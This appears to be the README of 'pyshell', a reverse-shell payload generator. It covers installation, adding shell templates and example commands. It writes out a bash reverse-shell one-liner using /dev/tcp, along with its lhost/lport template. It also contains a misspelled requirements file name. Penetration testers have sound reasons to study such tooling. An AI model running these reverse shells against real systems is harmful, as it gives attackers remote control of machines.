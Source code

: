 # Manuel Installation
1. git clone https://github.com/whitecat1331/pyshell.git
2. cd pyshell
3. python -m venv env
4. source env/bin/activate
5. pip install -r requriements.txt
6. python pyshell.py --help
# Quick Installation
1. git clone https://github.com/whitecat1331/pyshell.git
2. python -m venv env
3. cd pyshell
4. source env/bin/activate
5. pip install .
6. pyshell --help
# Features
## Add new template shell or language
1. create your new reverse shell in the shells directory.
2. replace the ip in the script with {lhost} and then replace the port with {lport}
3. For example replace, bash -i >& /dev/tcp/127.0.0.1/8080 0>&1 with bash -i >& /dev/tcp/{lhost}/{lport} 0>&1
4. The new script will be displayed in the languages field from the help menu.
# Examples:
- python pyshell.py --help
- python pyshell.py -l bash -i 10.10.10.10 8081
- python pyshell.py -l python -I eth0 7111
![pyshell examples](./pyshell.png)
